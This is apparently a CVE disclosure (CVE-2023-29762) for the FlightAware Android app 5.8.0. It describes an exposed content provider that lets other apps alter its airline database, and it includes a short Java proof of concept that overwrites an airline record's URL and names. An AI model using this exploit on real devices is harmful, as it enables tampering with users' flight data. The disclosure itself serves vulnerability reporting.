 # Escalation of Privileges exists in FlightAware（CVE-2023-29762）

Vendor: FlightAware(https://flightaware.com/)

Affected product: FlightAware(com.flightaware.android.liveFlightTracker)

Version: 5.8.0

Download link： https://play.google.com/store/apps/details?id=com.flightaware.android.liveFlightTracker

Description of the vulnerability for use in the CVE：An issue found in FlightAware v.5.8.0 allows unauthorized apps to cause escalation of privilege attacks by manipulating the database files.

Additional information: The FlightAware application allows unauthorized applications to use the methods provided in its exposed components to modify data in the database files, which is loaded at application startup and affects critical application functionality. Specifically, the application has a database that contains information about all airports and airline routes, and if an attacker maliciously tampers with the data, it can mislead users to query the information, resulting in an escalation of privilege attack.

poc:

```java
public void attack_flightware() {
        ContentResolver contentResolver = getApplicationContext().getContentResolver();
        Uri uri = Uri.parse("content://com.flightaware.android.liveFlightTracker.FlightAwareContent/airlines");
        ContentValues contentValues = new ContentValues();
        contentValues.put("url", "https://www.baidu.com");
        contentValues.put("name_zh", "天津航空有限责任公司");
        contentValues.put("iata", "GP");
        contentValues.put("icao", "MS");
        String[] str = {"341"};
        contentResolver.update(uri, contentValues, "_id=?", str);
    }
```


